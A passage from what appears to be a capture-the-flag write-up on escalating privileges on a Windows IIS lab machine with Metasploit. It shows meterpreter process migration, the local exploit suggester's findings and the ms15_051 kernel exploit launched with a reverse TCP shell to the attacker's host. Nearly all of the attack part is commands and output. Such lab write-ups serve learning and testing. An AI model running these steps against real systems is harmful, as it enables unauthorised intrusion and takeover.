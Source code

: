 However, we realize that the current meterpreter session does not have the required privilege and so we will need to migrate the process to a more privileged and stable process.
```
meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```

To migrate the process to a more privileged and stable process, we will have to first list the process using ```ps``` and then we will then migrate to the process with ```NT AUTHPRITY\NETWORK SERVICE``` privilege.

```
meterpreter > migrate 2176
[*] Migrating from 1388 to 2176...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

Next, we will have to background the current meterpreter session.

```
meterpreter > background
[*] Backgrounding session 1...
```

Afterwards, we will look for potential kernel exploits using the multi/recon/post/local_exploit_suggester module.

```
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1 
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.14 - Collecting local exploits for x86/windows...
[*] 10.10.10.14 - 38 exploit checks are being tried...
[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.14 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

From our testing, the following modules are vulnerable to exploitation.
- exploit/windows/local/ms10_015_kitrap0d
- windows/local/ms14_070_tcpip_ioctl
- exploit/windows/local/ms15_051_client_copy_image

```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_image
set LHOST 10.10.16.8
set SESSION 1
set LPORT 3000
msf6 exploit(windows/local/ms15_051_client_copy_image) > exploit

[*] Started reverse TCP handler on 10.10.16.8:3000 
[*] Launching notepad to host the exploit...
[+] Process 3272 launched.
[*] Reflectively injecting the exploit DLL into 3272...
[*] Injecting exploit into 3272...
[*] Exploit injected. Injecting payload into 3272...
[*] Payload injected. Executing exploit...
```